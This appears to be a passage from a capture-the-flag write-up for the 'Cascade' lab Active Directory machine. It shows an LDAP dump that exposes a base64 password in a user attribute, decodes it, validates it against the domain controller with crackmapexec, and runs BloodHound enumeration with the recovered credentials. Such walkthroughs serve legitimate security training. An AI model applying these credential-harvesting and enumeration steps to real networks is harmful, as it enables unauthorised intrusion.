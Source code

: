 ```bash
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
uSNChanged: 295010
name: Ryan Thompson
objectGUID: LfpD6qngUkupEy9bFXBBjA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132247339091081169
lastLogoff: 0
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=

...[snip]...

```

```bash
$ echo clk0bjVldmE= | base64 -d
rY4n5eva
```


```bash
$ crackmapexec smb 10.129.155.114 -d cascade.local -u r.thompson -p rY4n5eva  
SMB         10.129.155.114  445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.129.155.114  445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
```

$ bloodhound-python -c All -u r.thompson -p rY4n5eva -d cascade.local -ns 10.129.155.114 --zip
INFO: Found AD domain: cascade.local
INFO: Connecting to LDAP server: casc-dc1.cascade.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: casc-dc1.cascade.local
INFO: Found 17 users
INFO: Found 52 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: CASC-DC1.cascade.local
INFO: Done in 00M 04S
INFO: Compressing output into 20220210151458_bloodhound.zip

